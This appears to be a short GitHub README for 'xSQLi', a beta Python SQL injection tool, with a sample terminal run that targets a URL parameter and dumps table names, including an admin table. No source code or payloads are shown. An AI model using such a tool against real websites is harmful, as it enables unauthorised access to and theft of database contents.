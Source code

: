 # xSQLi(BETA) need to improve many things...

There is nothing in this script... :)

root@blackHat:~/xSQLi# python3 xSQLi.py 

 Injection Ponit : https://www.target.com/index.php?id=1inject //write "inject" in parameter where you want to inject query.
 
 (table/column)? : table //What You Want To Dump?
 
 From 		 : 1  //How Many Table Or Column You Want To Dump?
 
 To   		 : 3

________________________________________________________________________
1) :tbl_admin
2) :tbl_sample
________________________________________________________________________

			                      Finished!!!

root@blackHat:~/xSQLi#
